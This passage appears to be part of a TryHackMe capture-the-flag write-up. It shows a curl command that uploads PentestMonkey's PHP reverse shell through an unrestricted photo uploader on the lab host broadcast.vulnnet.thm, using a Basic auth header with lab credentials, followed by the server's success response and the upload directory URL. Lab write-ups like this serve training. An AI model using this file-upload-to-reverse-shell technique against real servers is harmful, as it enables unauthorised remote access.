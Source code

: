 
There we go, we can upload files, if we check `exploit-db`, we can check the following PoC:


![Pasted image 20250401162859.png](../../IMAGES/Pasted%20image%2020250401162859.png)



Since we can upload files, let's upload a reverse shell, we can use the one at `PentestMonkey` github

Link: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


Save the file and do the following:

```
curl -F "file=@thm_shell.php" -F "plupload=1" -F "name=thm_shell.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -H "Authorization: Basic ZGV2ZWxvcGVyczo5OTcyNzYxZHJtZnNscw=="
```

We get this response:

```
{"success":"yes","file_name":"17436166695449b9","extension":"php","file_directory":"2025\/04\/02"}
```


![Pasted image 20250402125929.png](../../IMAGES/Pasted%20image%2020250402125929.png)

We can now visit the following URL:

```
http://broadcast.vulnnet.thm/files/photos/
```

We notice this:
